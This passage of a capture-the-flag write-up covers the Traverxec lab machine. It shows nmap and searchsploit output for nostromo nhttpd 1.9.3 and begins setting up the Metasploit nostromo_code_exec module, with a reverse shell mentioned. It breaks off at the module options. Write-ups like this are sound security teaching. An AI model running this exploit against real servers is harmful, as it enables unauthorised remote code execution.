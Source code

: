     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Nov 27 09:04:44 2019 -- 1 IP address (1 host up) scanned in 7.91 seconds

There is an exploit for nostromo in version 1.9.3 and a metasploit exploit
without a precision about the version.

    :::text
    # searchsploit nostromo
    --------------------------------------- ----------------------------------------
    Exploit Title                         |  Path
                                          | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Nostromo - Directory Traversal Remote  | exploits/multiple/remote/47573.rb
    nostromo nhttpd 1.9.3 - Directory Trav | exploits/linux/remote/35466.sh
    --------------------------------------- ----------------------------------------

## Web

We run a dirb against the web service.

The website is a portfolio for a web and apps developer.

![homepage](/media/2020.04/traverxec_1.png)

The directory are listable.

![Directory listing](/media/2020.04/traverxec_2.png)

Nothing interesting on the web part. Let us run the exploit found in the recon.

## MSF

We load the exploit in metasploit, set the option to target the box and set our
IP work the reverse shell and run it.

    :::text
    msf5 exploit(multi/http/nostromo_code_exec) > use exploit/multi/http/nostromo_code_exec
    msf5 exploit(multi/http/nostromo_code_exec) > show options

    Module options (exploit/multi/http/nostromo_code_exec):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS   10.10.10.165     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    80               yes       The target port (TCP)
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)
       VHOST                     no        HTTP server virtual host
